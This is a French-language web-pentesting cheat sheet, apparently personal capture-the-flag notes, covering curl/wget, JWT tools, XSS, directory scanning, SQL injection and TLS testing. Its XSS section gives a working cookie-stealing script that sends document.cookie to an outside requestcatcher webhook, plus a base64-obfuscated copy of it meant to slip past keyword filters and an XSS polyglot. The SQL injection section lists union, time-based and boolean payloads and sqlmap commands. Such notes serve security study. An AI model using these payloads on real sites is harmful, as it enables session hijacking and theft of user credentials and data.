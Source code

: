 # Web

- [Curl / Wget](#curl--wget)
- [JWT (Json Web Token)](#jwt-json-web-token)
- [API](#api)
- [Obfuscation Javascript](#obfuscation-javascript)
- [XSS (Cross Site Scripting)](#xss-cross-site-scripting)
  - [XSS Polyglot](#xss-polyglot)
- [Scan d'URL web](#scan-durl-web)
- [Injection SQL](#injection-sql)
- [TLS](#tls)

---

## Curl / Wget

```bash
# ajouter un header à la requête
curl http://10.10.10.215 -H host:academy.htb
```

Pour obtenir la version hors-ligne d'un site :
```bash
# version longue
wget -r -l1 --page-requisite --convert-links --adjust-extension --timestamping --no-verbose <--span-hosts> url
# version courte
wget -r -l1 -p -k -E -N -nv <-H> url
```

## JWT (Json Web Token)

Pour manipuler un JWT en ligne : https://jwt.io/

Pour manipuler un JWT en python : https://pyjwt.readthedocs.io/en/latest/

## API

Pour requêter une API : https://reqbin.com

## Obfuscation Javascript

Outil pour obfusquer du Javascript : http://dean.edwards.name/packer

Outil pour dé-obfusquer du Javascript : https://lelinhtinh.github.io/de4js

## XSS (Cross Site Scripting)

```html
// Pour tester
<p id="p1">Testarossa</p>
<script>
document.getElementById("p1").innerHTML = "Life found a way !";
</script>
```

Webhook : https://busterbaxter.requestcatcher.com
```html
// Pour exploiter
<script>
var script = document.createElement("script");
script.src = "https://busterbaxter.requestcatcher.com/" + document.cookie;
document.body.appendChild(script);
</script>:-)

// Pour bypass les filtres qui recherchent des mots clés : base64 encoded payload
<body onload="eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9idXN0ZXJiYXh0ZXIucmVxdWVzdGNhdGNoZXIuY29tLyIgKyBkb2N1bWVudC5jb29raWU7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzY3JpcHQpOw=='))">
```

### XSS Polyglot

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Polyglots/XSS-Polyglot-Ultimate-0xsobky.txt :
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Life found a way !') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Life found a way !')//>\x3e
```

## Scan d'URL web

> Attention ! Ne pas utiliser en CTF réaliste

```bash
dirb http://10.10.10.215 -r -o academy.dirb.txt -H host:academy.htb
ffuf -c -w /usr/share/wordlists/dirb/common.txt -o ffuf.md -of md -u http://10.10.123.36/FUZZ
```

## Injection SQL

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet

https://www.journaldev.com/34028/sql-injection-in-java

Pour tester à la main :
```sql
-- Boolean Based SQL Injection
2 or 1=1
-- Union Based SQL Injection
2 union select username, password from tableuser
-- Time-Based SQL Injection
2 + SLEEP(5)
-- Error Based SQL Injection
recon
```

sqlmap :
```bash
# à partir d'une url
sqlmap -u "http://academy.htb/admin.php?uid=0&password=0" #--level 5 --risk 3
# à partir d'une requête interceptée par burpsuite
sqlmap -r academy.burp.txt
```

## TLS

`testssl.sh` permet de tester :
- versions de SSL/TLS
- suites de chiffrement
- ordre de chiffrement
- certificat
- vulnérabilités connues

Pour lancer :
```bash
git clone --depth 1 https://github.com/drwetter/testssl.sh.git
cd testssl.sh
./testssl.sh --html 172.17.0.2:50051
```
